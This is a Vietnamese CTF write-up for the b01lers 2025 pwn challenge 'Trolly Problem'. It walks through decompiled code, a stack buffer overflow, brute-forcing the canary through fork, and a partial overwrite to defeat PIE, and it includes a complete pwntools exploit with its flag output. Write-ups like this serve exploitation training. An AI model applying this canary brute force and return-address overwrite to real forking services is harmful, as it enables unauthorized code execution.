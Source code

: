 ```yaml
---
title: '[Writeup] - b01lers CTF (2025) - PWN'
tag: ['PWN', 'Writeup']
top_img: /img/2025/b01lers/banner.png
cover: /img/2025/b01lers/banner.png
category: ['Writeup', 'PWN']
date: 2025-04-22 00:14:00
author:
    - d4kw1n
---
```


## Trolly Problem

### Challenge Description

![alt text](image.png)

### Analysis & Source code

1. Checksec

```bash
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

2. Source code

Bài này không có source code sẵn nên mình sẽ dùng IDA để đọc mã nguồn. Challenge này sẽ có 3 functions chính cần chú ý là **main()**, **trolley_problem()**, **win()**

- **main()**

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [rsp+4h] [rbp-Ch] BYREF
  __pid_t pid; // [rsp+8h] [rbp-8h]
  int v6; // [rsp+Ch] [rbp-4h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  while ( problems > 0 )
  {
    --problems;
    pid = fork();
    if ( !pid )
      return trolley_problem();
    waitpid(pid, &stat_loc, 0);
    v6 = BYTE1(stat_loc);
    if ( BYTE1(stat_loc) == 1 || v6 == 5 )
    {
      problems += v6;
      puts("Uh oh, here comes another trolley...");
    }
  }
  return 0;
}
```

- **trolley_problem()**

```c
__int64 trolley_problem()
{
  int i; // [rsp+4h] [rbp-2Ch]
  char *s; // [rsp+8h] [rbp-28h]
  char s1[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  puts(::s);
  puts("Oh no! A runaway trolley is heading down the track");
  puts("and is about to cause five more trolley problems.");
  puts("You can pull a lever to divert the trolley onto another track,");
  puts("where it will only cause one trolley problem. What do you do?");
  s = (char *)malloc(0x64uLL);
  fgets(s, 48, stdin);
  for ( i = 0; s[i] != 10; ++i )
    s1[i] = s[i];
  puts(::s);
  if ( !strncmp(s1, "pull the lever", 0xEuLL) )
  {
    puts("You pulled the lever. But what did it accomplish?");
    return 1LL;
  }
  else
  {
    puts("You did nothing. Isn't that the wrong choice though?");
    return 5LL;
  }
}
```

- **win()**

```c
void __noreturn win()
{
  FILE *stream; // [rsp+8h] [rbp-78h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v2; // [rsp+78h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts("flag.txt not found");
    exit(1);
  }
  fgets(s, 100, stream);
  puts(s);
  fclose(stream);
  exit(0);
}
```

Function **win()** được dùng để in ra Flag cho chúng ta. Tuy nhiên nó lại không được call đến => Nên mình suy nghĩ đây là một bài **ret2win**.

Ở đây sẽ có 3 vấn đề cần giải quyết là `BOF ở đâu?`, `Canary` và `PIE`

- Về câu hỏi `BOF ở đâu?`
  - Trong hàm **trolley_problem()**, biến **s1** được khai báo 24 phần tử. Tuy nhiên, chương trình lại cho phép nhập đến tận 48 ký tự. => BOF sẽ xảy ra ở đây.
- Về phần `Canary`
  - Trong function **main()**, hàm **trolley_problem()** được gọi trong tiến trình con bởi việc dùng function **fork()** -> Canary mỗi tiến trình con là như nhau => Brute force canary.
  - Đồng thời, phải đảm bảo vòng lặp while không bị thoát. Để làm được điều này thì mình cần phải tăng giá trị của biến problems lên một giá trị thích hợp. Đoạn code bên dưới sẽ làm việc này
  
```python
for _ in range(256):  
    p.sendlineafter(b"What do you do?\n", b"do nothing")
    p.recvuntil(b"Uh oh, here comes another trolley...")
```

- Về phần `PIE`
  - Do PIE bật nên chúng ta không thể nhảy thẳng đến địa chỉ của function `win()` do không biết địa chỉ chính xác => Chỉ cần ghi đè 2 byte cuối.

Sau khi giải quyết được hết vấn đề thì bắt tay vào phần exploit

### Exploit

```python
from pwn import *

p = process('./chall') 
# p = remote('trolley-problem.harkonnen.b01lersc.tf', 8443, ssl=True)
exe = ELF('./chall') 
for _ in range(256):  
    p.sendlineafter(b"What do you do?\n", b"do nothing")
    p.recvuntil(b"Uh oh, here comes another trolley...")



canary = b""
for i in range(8): 
     for b in range(0xff + 1): 
          if b == 0x0a:
               continue
          p.recvuntil(b"What do you do?\n")
          
          payload = b"a" * 24 + canary + bytes([b])

          p.sendline(payload)
          p.recvline()
          p.recvline()
          response = p.recvline()
          if b"detected ***" not in response: 
               canary += bytes([b])
               log.info(f"Canary byte {i+1}: {hex(b)}")
               break

canary = u64(canary.ljust(8, b"\x00")) 
log.info(f"Canary: {hex(canary)}")

for i in range(256):
     payload = b"A" * 24 + p64(canary) + b"B" * 8 + b"\xD6" + bytes([i]) 
     p.sendlineafter(b"What do you do?\n", payload)
     res = p.recvuntil(b"}", timeout=1)
     if b"bctf" in res:
          log.info(f"Flag: {res}")
          break
     
p.interactive()
```

### Get Flag

```bash
┌──(kali㉿ANONYMOUS)-[/mnt/d/Security/PeginWN/Challenge/b01lersc/trolley-problem/trolley-problem/src]
└─$ python3 sol.py 
[+] Opening connection to trolley-problem.harkonnen.b01lersc.tf on port 8443: Done
[*] '/mnt/d/Security/PeginWN/Challenge/b01lersc/trolley-problem/trolley-problem/src/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
[*] Canary byte 1: 0x0
[*] Canary byte 2: 0x72
[*] Canary byte 3: 0x3f
[*] Canary byte 4: 0xc5
[*] Canary byte 5: 0xdd
[*] Canary byte 6: 0x5d
[*] Canary byte 7: 0x33
[*] Canary byte 8: 0xaa
[*] Canary: 0xaa335dddc53f7200
[*] Flag: b"\nYou did nothing. Isn't that the wrong choice though?\nbctf{why_c4nt_th3_tr0113y_dr1v3r_ju5t_pu11_th3_3m3rg3ncy_br4k3_5mh}"
[*] Switching to interactive mode
```

🚩 Flag: bctf{why_c4nt_th3_tr0113y_dr1v3r_ju5t_pu11_th3_3m3rg3ncy_br4k3_5mh}

